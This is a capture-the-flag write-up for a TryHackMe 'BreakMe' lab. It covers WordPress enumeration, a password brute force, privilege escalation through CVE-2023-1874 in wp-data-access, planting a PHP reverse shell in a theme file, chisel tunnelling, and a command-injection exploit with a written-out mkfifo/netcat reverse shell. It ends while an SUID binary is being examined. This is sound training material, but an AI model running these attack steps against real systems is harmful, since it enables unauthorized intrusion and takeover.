Difficult: Medium
--------------------------------
Note: Break this secure system and get the flags, if you can.
--------------------------------
Link: https://tryhackme.com/r/room/breakmenu

RECON:
+ Scan ports the machine with NMAP:

```bash
nmap -sV -vv -A -p- -T4 <IP>
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 8e:4f:77:7f:f6:aa:6a:dc:17:c9:bf:5a:2b:eb:8c:41 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPKq6PCdkc7tlJ9u/XcYjAfE8S8bOYjQe4+3teDY9e24Hfh7Qc3kXDIN52yu+ijvM7ZhcWwwLqikpNzqbhCQq8Ytf60lqNTPvekszBOP4xCJJWm2roGNftNu+IAIWgar7vOhHxLlniLdIt514pbiG2ZPZGxVdBHb7WsVVGUuM+b0AQOH7S9FLXBVqngrlrXUhhBsYtREfZxs4k+AE4N2ajcCEtPcdiLybPXddOD4GgM0nSwpTwlDehZ2NWVETT6ibQjl8T7WGogeIq1oO/LyOjLeu6MKuchp1H5FkIqe+wyZtRhjAsyKjrCGrCV4QM004AtcR/NjHaK7vvEqvRKOYmCmk7IotV/AtAD37GEu+qX0SePWVbZ8DweVIHYBPbJv1nCXkAy+T8eoj1dnvCgKsfz7L5PbkWucfF+gwzGTHwq2n9TrEOy99p6MStNv8ZBkXBY+2moD0ahZA3f6qYuvjlH4uVTCzXnbLxGTK0hdWGvT4PvC0vGh661mmaIhI3Ag0=
|   256 a3:9c:66:73:fc:b9:23:c0:0f:da:1d:c9:84:d6:b1:4a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPeQGv1A7372SDcT2mRIrMxbQaXJ1RA1ibSYWQ6WJxPH5YZCEQzSTHh5eTrum2k0SvIjmPyLfsoVmmOoPZGaR1g=
|   256 6d:c2:0e:89:25:55:10:a9:9e:41:6e:0d:81:9a:17:cb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAuvMwyWKUHQmG5CUtHi/vQ5F2fhnT8k0jGo18znKuHQ
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.56 (Debian)
```

+ Scan directories with Gobuster:

```bash
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<IP>/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.txt        (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 10701]
/manual               (Status: 301) [Size: 311] [--> http://<IP>/manual/]
/server-status        (Status: 403) [Size: 276]
/wordpress            (Status: 301) [Size: 314] [--> http://<IP>/wordpress/]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
```
--> Access /wordpress, we got the website page Wordpress name BreakMe.

+ Check around the page we got some information about the page.
+ Author of page : admin and user "admin" is available in login page.


+ Continue scanning the website page /wordpress with Gobuster:

```bash
$ gobuster dir -u http://<IP>/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t64
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<IP>/wordpress/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 329] [--> http://<IP>/wordpress/wp-content/]
/wp-includes          (Status: 301) [Size: 330] [--> http://<IP>/wordpress/wp-includes/]
/wp-admin             (Status: 301) [Size: 327] [--> http://<IP>/wordpress/wp-admin/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```
--> We have the login page /wp-admin.

+ Now we've known the website page is page Wordpress so we are able to use specialized tool for scanning Wordpress call "WpScan".


```bash
[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://<IP>/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>
 |  - http://<IP>/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://<IP>/wordpress/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://<IP>/wordpress/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | Style URL: http://<IP>/wordpress/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://<IP>/wordpress/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.0'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:10 <===========> (100 / 100) 100.00% Time: 00:00:10
```
+ We've found the identified users:

```bash
[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://<IP>/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bob
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
+ Now we continue using WpScan to brute force user to find available passwords.

```bash
    wpscan --url <IP>/wordpress -U bob -P rockyou.txt
+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - bob / soccer                                                                   
Trying bob / angel Time: 00:00:01 <                 > (36 / 14344428)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: bob, Password: soccer
```
---> We've found the password and use it to login again /wp-admin.

+ We look around main page wordpress but limited <features we can use because we are in role normal user not role Administrator.



+ Look again information which we scan by WpScan that are Plugins and Themes:

```bash
[+] WordPress theme in use: twentytwentyfour
 | Location: http://<IP>/wordpress/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://<IP>/wordpress/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | Style URL: http://<IP>/wordpress/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://<IP>/wordpress/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.0'
```

```bash
[i] Plugin(s) Identified:

[+] wp-data-access
 | Location: http://<IP>/wordpress/wp-content/plugins/wp-data-access/
 | Last Updated: 2024-10-17T00:01:00.000Z
 | [!] The version is out of date, the latest version is 5.5.16
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.3.5 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://<IP>/wordpress/wp-content/plugins/wp-data-access/readme.txt
```

--> We've known the both are out date so maybe they will have the vulnerable we can manipulate.

+ First we will research and find the vulnerable plugin "wp-data-access" version 5.3.5 because we are still no access the feature theme "twentytwentyfour".
+ We've found the vulnerable "wp-data-access" --> CVE-2023-1874
+ Link: https://www.wordfence.com/blog/2023/04/privilege-escalation-vulnerability-patched-promptly-in-wp-data-access-wordpress-plugin/
+ We are able to use 'wpda_role[]' parameter to modify user role to role Administrator.
+ Using Burpsuite to intercept and when we "Update Profile", we add "wpda_role[]=administrator" into code:



+ We got the full <features:



+ After exploiting the vulnerable Plugin success, we can manipulate the Themes to spawn the reverse shell.
+ Access "Edit Themes" in Appearance, we can know that the page is in "twentytwentyfour" theme.
+ We are able to add PHP reverse shell into theme /twentytwenyone/404.php:



--> We can not write PHP webshell into 404.php of another theme except theme twentytwentyone.



```bash
[+] WordPress theme in use: twentytwentyone
 | Location: http://<IP>/wordpress/wp-content/themes/twentytwentyone/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://<IP>/wordpress/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 2.3
 | Style URL: http://<IP>/wordpress/wp-content/themes/twentytwentyone/style.css?ver=2.1
 | Style Name: Twenty Twenty-One
 | Style URI: https://wordpress.org/themes/twentytwentyone/
 | Description: Twenty Twenty-One is a blank canvas for your ideas and it makes the block editor your best brush. Wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://<IP>/wordpress/wp-content/themes/twentytwentyone/style.css?ver=2.1, Match: 'Version: 2.1'
```

+ Access http://<IP>/wordpress/wp-content/themes/twentytwentyone/404.php and use netcat to capture the listner port.



+ We using python to spawn interactive shell.



+ Now we can not read file of user john so we need to priv to "john".
+ We're checking the proccess belong to user "john" and find out john running the PHP development server

```bash
www-data@Breakme:/home/john$ ps aux | grep "john"
john         538  0.0  1.0 193800 20692 ?        Ss   00:01   0:00 /usr/bin/php -S 127.0.0.1:9999
www-data    1000  0.0  0.0   6580   640 pts/0    S+   00:23   0:00 grep john
```

+ Try access the IP 127.0.0.1:9999, we've known that this is the website possibly an entry point user "john":



+ Now we want to investigate the page but we can not access directly. We will create a tunnel to gain access to it.
+ We use tool "chisel" to create fast tunnel over HTTP.
+ Link: "https://github.com/jpillora/chisel"
+ First, we start server mode in attack machine:

```bash
chisel server -p 5555 --reverse
2024/10/25 12:01:38 server: Reverse tunnelling enabled
2024/10/25 12:01:38 server: Fingerprint dS1qiacIH6r9bXGWrTdcbCSGxnAO7UISaSUaFaLAqAM=
2024/10/25 12:01:38 server: Listening on http://0.0.0.0:5555
2024/10/25 12:06:33 server: session#1: tun: proxy#R:9999=>9999: Listening
```

+ Next we download chisel into the target machine and start client mode.

```bash
www-data@Breakme:/tmp$ wget http://10.11.101.46:8000/chisel
--2024-10-25 01:04:37--  http://10.11.101.46:8000/chisel
Connecting to 10.11.101.46:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9371800 (8.9M) [application/octet-stream]
Saving to: ‘chisel’

chisel              100%[===================>]   8.94M  1.48MB/s    in 6.5s    

2024-10-25 01:04:44 (1.39 MB/s) - ‘chisel’ saved [9371800/9371800]

www-data@Breakme:/tmp$ ls -l
total 9156
-rw-rw-rw- 1 www-data www-data 9371800 Oct 25 00:58 chisel
www-data@Breakme:/tmp$ chmod +x chisel 
<./chisel client 10.11.101.46:5555 R:9999:127.0.0.1:9999 &                       
[1] 1106
www-data@Breakme:/tmp$ 2024/10/25 01:06:32 client: Connecting to ws://10.11.101.46:5555
2024/10/25 01:06:33 client: Connected (Latency 211.026767ms)
```

+ Access the page http://127.0.0.1:9999/ successfull



+ We check first the feature "Check Target" which is ping IP.
+ We use "TcpDump" to see when we input the target IP so we can recieve the response ping IP:



--> When we input the IP with characters we recieved the error message in result: "Invalid IP address".

+ Moving to the next feature "Check File":

```bash
- When we input the normal name like text, file,... --> We recieved the result message: "File not found" but when we add some special characters like "" , . --> We recieved the result message: "Invalid Filename"
```

+ The last fearture "Check User":

```bash
 - First we input the name normaly john --> We recieved the result message: "User john not found"
 - Second we add special character like (:) we recieved the message: "User john: not found" but with different special character like "" ,, or || --> we recieved the message same : "User john not found" and the special character being replaced.
 ```  
 --> The vulnerable "Command Injection" is available in the fearture "Check User".

-----------------------------
 ***EXPLOIT COMMAND INJECTION***
+ Type: Verbose Command Injection.
+ After testing some special characters in list we created 
```
`
|| 
; 
'
" 
&
>
/ 
!
:
{}
[]
()
```
--> We've recieved result message:
```
User ||/:{} found
``` 
+ So we can use this character to inject into command but not replaced.

```
We create file bash in path server /var/www/html and then write payload to create reverseshell. After that we write path file bash into command field and use netcat to capture the listen port. 
```

```
www-data@Breakme:/$ cd /var/www/ 
www-data@Breakme:/var/www$ ls
html
www-data@Breakme:/var/www$ cd html/
www-data@Breakme:/var/www/html$ ls
index.html  wordpress
www-data@Breakme:/var/www/html$ ls -l
total 16
-rwxr-xr-x 1 www-data www-data 10701 Aug 17  2021 index.html
drwxr-xr-x 5 www-data www-data  4096 Oct 25 06:17 wordpress
www-data@Breakme:/var/www/html$ touch exploit.sh
www-data@Breakme:/var/www/html$ ls
exploit.sh  index.html	wordpress
www-data@Breakme:/var/www/html$ echo '#!/bin/bash' > exploit.sh 
<mp/f|/bin/bash -i 2>&1|nc 10.11.101.46 4444 >/tmp/f' >> exploit.sh 
www-data@Breakme:/var/www/html$ cat exploit.sh 
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.11.101.46 4444 >/tmp/f
www-data@Breakme:/var/www/html$ chmod +x exploit.sh 
www-data@Breakme:/var/www/html$ ls -l
total 20
-rwxrwxrwx 1 www-data www-data    94 Oct 25 06:52 exploit.sh
-rwxr-xr-x 1 www-data www-data 10701 Aug 17  2021 index.html
drwxr-xr-x 5 www-data www-data  4096 Oct 25 06:17 wordpress
www-data@Breakme:/var/www/html$ 
```

+ The first try, we run command:
```
/var/www/html/exploit.sh
```
but netcat can not capture the listner port so we continute add some special character and finally success with payload |/var/www/html/exploit.sh|

+ Link list payload for Command Injection: "https://github.com/payloadbox/command-injection-payload-list"



+ Access /youcef --> We got 2 files readfile and readfile.c
+ Check permission files:
```
john@Breakme:/home/youcef$ ls -la
total 52
drwxr-x--- 4 youcef john    4096 Aug  3  2023 .
drwxr-xr-x 5 root   root    4096 Feb  3  2024 ..
lrwxrwxrwx 1 youcef youcef     9 Aug  3  2023 .bash_history -> /dev/null
-rw-r--r-- 1 youcef youcef   220 Aug  1  2023 .bash_logout
-rw-r--r-- 1 youcef youcef  3526 Aug  1  2023 .bashrc
drwxr-xr-x 3 youcef youcef  4096 Aug  1  2023 .local
-rw-r--r-- 1 youcef youcef   807 Aug  1  2023 .profile
-rwsr-sr-x 1 youcef youcef 17176 Aug  2  2023 readfile
-rw------- 1 youcef youcef  1026 Aug  2  2023 readfile.c
drwx------ 2 youcef youcef  4096 Aug  5  2023 .ssh
john@Breakme:/home/youcef$ 
```
+ We have readfile with SUID run execute ./readfile
```
john@Breakme:/home/youcef$ ./readfile 
Usage: ./readfile <FILE>
```

+ Now we will download file "readfile" to attack machine to analyze.

